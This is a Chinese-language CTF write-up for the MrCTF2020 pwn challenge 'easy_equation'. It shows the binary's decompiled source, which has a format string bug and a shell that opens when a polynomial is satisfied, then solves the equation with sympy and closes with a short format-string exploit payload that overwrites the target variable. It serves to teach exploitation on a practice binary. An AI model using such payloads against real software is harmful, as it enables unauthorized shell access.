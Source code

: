 
## easy_equation
- 题目描述：
    
    > I do not like the fmstr_payload : (
- 题目附件：[easy_equation](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/easy_equation/easy_equation)
- 考察点：格式化字符串、解方程
- 难度：入门
- 初始分值：500
- 最终分值：227
- 完成人数：40

### 程序分析

存在格式化字符串漏洞，judge变量为方程的解时给shell：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+Fh] [rbp-1h]

  memset(&s, 0, 0x400uLL);
  fgets(&s, 1023, stdin);
  printf(&s, 1023LL);
  if ( 11 * judge * judge + 17 * judge * judge * judge * judge - 13 * judge * judge * judge - 7 * judge == 198 )
    system("exec /bin/sh");
  return 0;
}
```

### 解题思路

使用sympy解方程：

```python
#!/usr/bin/python
import sympy
judge=sympy.symbols("judge")
r=sympy.solve([11 * judge * judge + 17 * judge * judge * judge * judge - 13 * judge * judge * judge - 7 * judge -198],[judge])
print r[0][0]

# judge=2
```

### exp
```python
payload = '%2c%9$hhn' + p64(0x60105C)
sl(payload)
```
